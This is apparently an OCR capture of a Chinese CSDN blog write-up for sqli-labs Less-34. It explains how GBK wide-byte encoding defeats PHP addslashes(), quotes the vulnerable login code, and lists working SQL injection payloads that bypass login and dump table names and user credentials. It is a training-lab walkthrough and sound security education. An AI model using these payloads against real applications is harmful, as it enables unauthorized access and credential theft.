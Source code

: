 
```
Less - 34 Bypass Add SLASHES

（第34节：绕过添加斜杠）
Test:

    http://localhost/sqli-lab/Less-34/index.php
    
    1

注：编码为gbk的数据库+addslashes() 有一个关于编码的漏洞 加上斜杠以后的字符编码是%BF%5C%27和%FE%5C%27
Sourse Code：

$uname = addslashes($uname1);
$passwd= addslashes($passwd1);
mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
if($row){
     echo 'Your Login name:'. $row['username'];
     echo 'Your Password:' .$row['password'];
     echo '<img src="../images/flag.jpg"  />';   
}else{
     print_r(mysql_error());
     echo '<img src="../images/slap.jpg" />';   
}



Solution：

    uname=1%BF' or 1=1 #&passwd=1%BF' or 1=1 #&submit=Submit
    
    uname=1%FE' or 1=1 #&passwd=1%FE' or 1=1 #&submit=Submit
    
    其它：
    
    uname=1%Bf' union select version(),database() #&passwd=1%BF' or 1=1 #&submit=Submit
    
    uname=1%FE' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #&passwd=1%FE' or 1=1 #&submit=Submit
    
    uname=1%FE' union select group_concat(username),group_concat(password) from security.users where 1 #&passwd=1%FE' or 1=1 #&submit=Submit
    

注：如果采用这种办法，还是一直报编码错误的话，建议自行检查 数据库 及 其中 表 的编码
————————————————
版权声明：本文为CSDN博主「战狼767」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/qq_21500173/article/details/51965212
```
